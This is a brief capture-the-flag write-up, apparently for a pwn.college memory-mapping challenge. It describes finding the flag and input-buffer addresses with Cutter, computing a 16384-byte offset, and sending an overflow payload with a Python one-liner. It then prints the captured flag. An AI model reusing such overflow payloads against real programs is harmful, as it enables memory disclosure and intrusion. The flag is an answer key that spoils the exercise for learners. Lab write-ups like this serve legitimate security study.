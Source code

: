 In this challenge the input buffer and the flags are mapped into the virtual memory

I used cutter to debug the program to get address of all the regions mapped

The flag is written at 0x7ff8a73bd000
The input buffer is at 0x7ff8a73b9000

The offset is 16384

The exploit
    
    python -c 'import sys, time; sys.stdout.buffer.write(b"28672"); time.sleep(1); sys.stdout.buffer.write(b"A"*16385);'

The flag 

    pwn.college{YtrWlaDifxfwsTZtUdHDUUakuC_.0FMxMDL5kzM1czW}
